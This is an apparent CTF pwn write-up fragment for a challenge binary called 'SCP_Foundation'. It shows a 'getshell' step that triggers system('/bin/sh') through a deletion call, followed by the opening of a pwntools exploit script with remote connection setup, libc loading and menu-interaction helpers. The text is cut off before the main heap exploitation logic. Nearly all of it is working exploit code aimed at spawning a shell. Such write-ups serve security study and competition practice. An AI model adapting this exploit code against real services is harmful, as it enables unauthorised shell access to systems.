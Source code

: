 ### getshell

```python
# system('/bin/sh')
dlt(7)
```

### exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './SCP_Foundation'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../../libc-2.23.so'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def add(n_size, name, d_size, desc):
    sla('want to do :','2')
    sla('> SCP name\'s length : ', str(n_size))
    sea('> SCP name : ',name)
    sleep(0.1)
    sla('length : ',str(d_size))
    sea('SCP description : ',desc)
    sleep(0.1)
```